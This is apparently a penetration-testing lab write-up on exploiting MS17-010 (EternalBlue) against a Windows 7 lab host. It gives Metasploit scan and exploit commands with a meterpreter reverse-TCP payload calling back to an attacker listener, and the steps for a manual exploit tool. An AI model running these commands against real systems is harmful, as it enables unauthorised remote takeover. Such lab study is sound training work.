 ```bash
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.68 ms 192.168.31.132
```

### Exploit MS17-010

> [CVE-2017-0144 - MS17-010](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
>
> [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit](https://www.exploit-db.com/exploits/42031)
>
> [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

**Metasploit**

```bash
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.31.132
run
```

```bash
[+] 192.168.31.132:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 192.168.31.132
check
# Same as auxiliary/scanner/smb/smb_ms17_010 module
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.131 # Listening HOST/Kali
run
```

![](.gitbook/assets/2024-07-13_23-49-55_610.png)

**Manual exploit**

```bash
cd ~/tcm/peh/blue/
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd ~/tcm/peh/blue/AutoBlue-MS17-010
pip install -r requirements.txt
cd shellcode

# Checker
python2 eternal_checker.py 192.168.31.132
```
